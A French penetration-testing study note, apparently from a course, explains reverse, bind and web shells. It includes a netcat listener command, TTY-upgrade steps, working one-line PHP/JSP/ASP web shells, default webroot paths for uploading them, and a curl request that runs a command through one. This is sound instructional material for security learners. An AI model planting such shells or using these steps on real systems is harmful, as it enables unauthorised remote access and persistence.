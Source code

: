 ```yaml
---
title:  "Types de Shells"
category: "Les bases du test d'intrusion"
tag: "Introduction"
---
```

Une fois un système compromis, un moyen pour s'y connecter est :
- Par protocole **SSH** ou **WINRM** si des logins sont disponibles.
- Sinon RCE ou shell.

Rappels des types de shells :
- reverse Shell
- bind shell
- web shell

## 1) Reverse Shell

Méthode la plus facile et rapide pour avoir accès à un host compromis.
On peut lancer un netcat en écoute sur un port, qui va laisser les connections possibles sur un port spécifique pour que notre reverse shell s'y connecte. 
### Netcat listener
netcat en écoute sur le port 1234.
```console
Misoko@home[/home]$ nc -lvnp 1234
```
- -l mode d'écoute
- -n désactive la resolution DNS (seulement IP directe)

### Commande Reverse shell
Pour avoir accès à un shell, il faut qu'un programme soit exécuté sur le host distant en question, afin qu'il initie la connection.
Cela dépend du système, pour cela des commandes / programmes existent.\
[cheatList](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## 2) Bind Shell
Contrairement au reverse shell, c'est le système distant qui est en écoute, et c'est l'attaquant qui lance la connection.

**Avantage :** si on perd la connection du côté attaquant, on peut re-initier la connexion.\
**Inconvénient :** si le processus de l'hôte se déconnecte (ou l'hôte reboot), il faut exploiter de nouveau la vulnérabilité de base.\
[cheatList](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md)

### Amélioration TTY
Une fois qu'on connecte notre shell à travers netcat, on voit qu'on a seulement une interface de ligne de commande limitée (pas de complétion, modification de commandes, etc).\
Il faut alors mapper notre terminal tty avec le tty distant.\
***Un tty est le nom de périphérique Unix pour une connexion de terminal physique ou virtuel.***

Il existe de nombreuses méthodes. Nous allons en énumérer une ici :
- Dans notre shell netcat, on utilise une commande python pour upgrade notre shell en full TTY.
- On place en fond de tache arrière notre shell (avec CTRL + Z), et on revient sur notre terminal local.
- on exécute la commande ssty.
- on remet notre tty shell en premier plan.
- on tape la touche entrée pour récupérer la main sur le terminal.

```console
Misoko@home$ python -c 'import pty; pty.spawn("/bin/bash")'
Misoko@home$ ^Z
Misoko@home$ stty raw -echo
Misoko@home$ fg
[Enter]
[Enter]

user@remoteHost$ 
```

Pour avoir le tty sur tout le terminal, on doit récupérer le type de terminal et la longueur de ligne ou colonne que l'on veut sur un autre terminal local avec respectivement les commandes : 

```console
Misoko@home$  echo $TERM
xterm-256color
Misoko@home$  stty size
60(ligne) 315(colonne)
```
Puis sur le terminal "netcat", on configure le type et la taille du terminal :
```console
netCatTerminal@home$ export TERM=xterm-256color
netCatTerminal@home$ stty rows 60 columns 315
```

## 3) Web Shell

Un shell Web est un script web (php ou aspx par exemple), qui accepte des requêtes HTTP avec des paramètres et exécutera les commandes.
### Écriture du Web Shell
L'écriture est souvent simple :
- php : 
```console
<?php system($_REQUEST["cmd"]); ?> 
```
- jsp : 
```console
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %> 
```
- asp : 
```console
<% eval request("cmd") %>
```

### Upload le webShell

Après avoir créé le script webshell, il faut le déplacer dans le repertoire web distant de l'hôte (webroot), pour qu'il soit executé à travers le navigateur.\
On peut le faire à partir d'une vulnérabilité permettant un upload de fichier, ou si on a une RCE, on peut toujours écrire le shell **(commande echo)** dans des commandes et le déplacer au bon endroit.\
Il faut également d'abord connaître le webroot, les principaux sont indiqués ci dessous :

| Serveur Web | WebRoot par défaut|
| ------ | ----------- |
| Apache | /var/www/html/ |
| Nginx | /usr/local/nginx/html/ |
| IIS | c:\inetpub\wwwroot\ |
| xamp | C:\xampp\htdocs\ |

### Accéder aux shell web
Une fois écrit et placé, on peut accéder au shell web à travers le navigateur ou par curl.
Pour le script shell 
```console
<?php system($_REQUEST["cmd"]); ?>
```
```http
http://serveurIP:port/webShell.php?cmd=id
```

```console
curl http://serveurIP:port/webShell.php?cmd=id
```

- **Avantages** : les webshell permettent de contourner les pare-feux (n'ouvre pas de connection puisqu'on utilise les ports web, c'est à dire 80, 443 ou ceux sur lesquels transitent le flux web).\
Également, si l'hôte distant reboot, le webshell est toujours en place (on ne perd pas la connection comme avec un bind/reverse shell).
- **Inconvénient** : le web shell n'est pas aussi intéractif que les autres.
